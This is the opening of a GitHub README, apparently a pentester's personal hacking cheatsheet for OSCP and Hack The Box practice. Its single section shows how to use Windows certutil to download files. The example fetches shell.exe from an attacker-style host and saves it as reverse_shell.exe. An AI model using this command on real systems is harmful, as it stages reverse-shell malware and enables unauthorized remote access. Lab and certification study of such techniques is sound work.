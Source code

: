# Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks i found during my work as pentester, hacker, OSCP student and hack the box fan.

- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Download Files with Certutil](#download-files-with-certutil)


# File Transfer and File Downloads

## Windows
### Download Files with Certutil
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```
